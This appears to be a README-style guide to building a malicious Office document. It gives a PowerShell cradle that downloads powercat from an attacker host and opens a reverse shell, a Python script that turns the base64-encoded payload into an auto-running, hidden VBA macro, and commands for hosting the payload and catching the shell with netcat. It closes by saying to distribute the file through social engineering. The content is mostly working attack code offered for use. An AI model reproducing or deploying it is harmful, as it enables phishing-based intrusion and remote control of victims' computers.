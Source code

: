 ### Process for generating malicious VBA Macro

1. Start with the following Powershell payload:
```powershell
$payload = "IEX(New-Object System.Net.WebClient).DownloadString('http://<OurIP>/powercat.ps1');powercat -c <OurIP> -p 4444 -e powershell"
```
2. Base64 Encode with Powershell (nb. you _will_ get a different result if you just `echo <payload> | base64` in Bash, use the code below):
```powershell
$b64EncodedPayload = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($payload))
$b64EncodedPayload
```
3. Feed the encoded payload as a command line arg to this Python script:
```python
import sys

print('''Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
''')
payload = f"powershell.exe -nop -w hidden -e {sys.argv[1]}"
n = 50
for i in range(0, len(payload), n):
    print(f'    Str = Str + \"{payload[i:i+n]}\"')
print('\n    CreateObject("Wscript.Shell").Run Str')
print('End Sub')
```
4. With our macro ready spin up a Windows machine that has office on it and create a Word doc with filetype `.doc`. This should be the 1997-2003 flavour. Then navigate to `View -> Macros`. Create a new macro in the file you've created and copy the macro we produced in step 3 into it.
5. If necessary exfiltrate the file via SCP:
```powershell
scp macro.doc kali@<our IP>:/home/kali
```
make sure an SSH server is running on the Kali machine:
```bash
sudo systemctl start ssh
```
6. Before distributing ensure an HTTP server is running in the same directory as a copy of `powercat.ps1`:
```bash
python3 -m http.server 80
```
and finally ensure a netcat listener is waiting for the shell:
```bash
nc -nvlp 4444
```
7. Distribute the payload via social engineering or file upload based vuln.

